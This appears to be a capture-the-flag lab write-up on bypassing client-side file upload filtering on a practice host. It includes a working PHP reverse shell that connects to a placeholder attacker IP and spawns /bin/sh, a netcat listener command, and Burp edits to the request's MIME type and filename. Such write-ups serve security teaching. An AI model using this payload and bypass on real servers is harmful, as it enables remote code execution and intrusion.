


# Bypassing Client-Side Filtering

## Overview
This exercise demonstrate how client-side file upload validation can be bypassed to achieve Remote Code Execution (RCE). The goal was to upload a PHP reverse shell despite the application only allowing image uploads.

## Tools Used
- `gobuster`
- `Burp Suite`
- `netcat`

## Enumeration
I began by performing directory enumeration using Gobuster.

```
gobuster dir -u http://java.uploadvulns.thm -w directory-list-2.3-medium.txt -t 50
```

### Directories Found
- `/images`
- `/assets`

The `/images` directory appeared to be the location where uploaded files were stored.



## Creating the Reverse Shell
I created a PHP reverse shell file using `nano`.

```
nano shell.php
```

### Payload Used

```
<?php
$ip = "MACHINE_IP";
$port = 1234;

$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(
    0 => $sock,
    1 => $sock,
    2 => $sock
), $pipes);
?>
```

The payload connects back to my Netcat listener and spawns an interactive shell.
Since the application blocked `.php` uploads, I renamed the file:

```
shell.php -> shell.jpg
```

## Setting Up the Listener
Before uploading the payload, I started a Netcat listener to catch the reverse shell connection.

```
nc -lvnp 1234
```

## Bypassing the File Upload Filter
After selecting `shell.jpg` on the upload page, I intercepted the request with Burp Suite and modified:

### Original Request
```
Content-Type: image/jpeg
Filename: shell.jpg
```

### Modified Request
```
Content-Type: text/x-php
Filename: shell.php
```
I then forwarded the modified request to the server.

This worked because the application relied on client-side validation and trusted the MIME type supplied in the HTTP request instead of properly validating the file on the server side.

## Achieving RCE
After the upload completed successfully, I visited:
```
http://java.uploadvulns.thm/images/shell.php
```
A reverse shell connection was received on the Netcat listener.

### Verification
To confirm successful code execution, I ran:
```
whoami
id
```
The output confirmed that commands were executing on the target system.

### Flag Discovery
I navigated to the web root directory
```
cd /var/www
ls
```
A file named `flag.txt` was present.

I read the contents using:
```
cat flag.txt
```
which revealed the flag successfully.



## Key Takeaways
- Client-side validation alone is insecure.
- MIME types can be manipulated during intercepted requests.
- Upload directories exposed through the web server can lead to RCE if executable files are allowed.

## Skills Practiced
- Directory enumeration
- File upload exploitation
- Burp Suite request manipulation
- Reverse shell handling
